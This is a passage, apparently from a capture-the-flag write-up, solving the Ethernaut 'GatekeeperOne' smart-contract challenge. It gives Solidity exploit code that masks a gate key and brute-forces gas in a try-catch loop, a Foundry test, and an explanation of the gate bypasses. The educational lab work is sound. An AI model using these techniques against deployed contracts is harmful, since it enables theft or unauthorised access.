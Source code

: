 ```

    constructor(GatekeeperOne _gateKeeperOne, address _player) {
        gateKeeperOne = _gateKeeperOne;
        player = _player;
    }

    function attack() public {
        bytes8 gateKey = bytes8(uint64(uint160(player))) & 0xFFFFFFFF0000FFFF;
        for (uint256 i = 0; i <= 8191;) {
            try gateKeeperOne.enter{gas: 85000 + i}(gateKey) {
                break;
            } catch {
                i++;
            }
        }
    }
}
```
- `test/Weel10-11/GateKeeperOne.t.sol`
```
contract GatekeeperOneTest is Test {
    GatekeeperOne gateKeeperOne;
    address player;
    Exploit exploitContract;

    function setUp() public {
        gateKeeperOne = new GatekeeperOne();
        player = tx.origin;
        exploitContract = new Exploit(gateKeeperOne, player);
    }

    function testExploit() public {
        vm.startPrank(player);
        exploitContract.attack();
        assertEq(gateKeeperOne.entrant(), player);
    }
}
```

### Exploit
#### Gate One:
In `require(msg.sender != tx.origin)`; basically, we just need to call `GatekeeperOne.enter()` from a contract, so that
`tx.origin` is the EOA address, and `msg.sender` is the contract address.

#### Gate Two:
In `require(gasleft() % 8191 == 0)` we need to call `GatekeeperOne.enter()` with a gas amount that is a multiple of 8191.
The `gasleft` function is a global function that returns the remaining gas amount in the current transaction, after executing all the opcodes. So we need to call the function with a specific amount of gas such that it will make the `gasleft() % 8191 == 0` condition true. It's difficult to guess the precise amount of gas, but we can brute force it. The gas used by the `enter` function must be at least 8191 + all the gas needed to execute the opcodes, so we can use a loop with a try-catch and a starting base amount of gas (to prevent out of gas revert) and keep incrementing it until it works.
